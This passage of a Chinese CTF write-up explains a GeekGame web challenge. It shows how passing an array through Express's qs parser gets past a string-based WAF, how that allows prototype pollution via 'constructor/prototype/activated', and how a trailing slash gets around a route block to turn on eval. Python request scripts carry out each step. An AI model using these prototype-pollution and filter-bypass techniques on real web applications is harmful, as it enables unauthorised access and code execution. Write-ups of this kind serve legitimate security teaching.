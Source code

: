```javascript
            return;
        }
        if(cur[term]===undefined)
            cur[term] = {};
        cur = cur[term];
    }
    cur[out_path[out_path.length-1]] = data;
});
```

如果 `out_path` 是一个字符串的话，只要它包含 waf 函数识别的那些子串（`indexOf` 不是 -1），就会拒绝执行。

但 `out_path` 不一定是个字符串。因为 `out_path` 来自于 URL 的参数部分，而 `express` 通过 `qs` 库解析参数，[这个库允许参数是一个数组](https://www.npmjs.com/package/qs)。例如如果 URL 是 `?out_path[]=12&out_path[]=34`，则 `out_path` 实际的值是 `["12", "34"]`。利用此处的弱类型可以绕过识别。

我们输入 `?out_path[]=constructor/prototype/activated`，此时 waf 函数会检查 `["constructor/prototype/activated"].indexOf(...)` 注意到此处调用的是数组（而非字符串）的 `indexOf`，于是通过检查。运行到后面 `out_path = prefix + out_path;` 时由于 `prefix` 是一个字符串，在做加法的时候会把 `out_path` 的类型转换回字符串，于是偷天换日成功。

获得 Flag 1 的代码如下：

```python
import requests
s = requests.Session()

SERVER_URL = 'https://prob11-xxxxxxxx.geekgame.pku.edu.cn'

def get_flag1():
    txt = s.get(SERVER_URL+'/api/demo.json?out_path[]=constructor/prototype/activated').text
    assert txt=='{}'

    flag1 = s.get(SERVER_URL+'/activate').text
    print(flag1)
    assert 'flag{' in flag1
```

Flag 2 比较困难。首先我们希望启用代码的 `eval` 功能，但是面临着两个障碍：

- 上面的代码只能把 `activated` 设置成一个非空的值，但不是 1，因此不满足 `/eval_settings` 中的判断。
- 事实上 `/eval_settings` 根本访问不到，因为有一个 middleware 直接阻断了所有以 `settings` 结尾的 URL。

为了解决第 1 个障碍，可以通过 `in_path` 构造出一个值是 1 的东西，比如：

![image-20211116141647598](assets/image-20211116141647598.png)

为了解决第 2 个障碍，可以访问 `/eval_settings/`。`express` 库的路由规则比较宽松，在 URL 后面加一个斜杠也能匹配到。

于是，可以这样启用 `eval` 功能：

```python
def enable_eval():
    txt = s.get(SERVER_URL+'/api/demo.json?in_path[]=constructor/length&out_path[]=constructor/prototype/activated').text
    assert txt=='{}'
    
    flag1 = s.get(SERVER_URL+'/activate').text
    print(flag1)
    assert 'flag{' in flag1
    
    txt = s.get(SERVER_URL+'/eval_settings/?eval=on').text
    assert txt=='Eval set to 1'
```
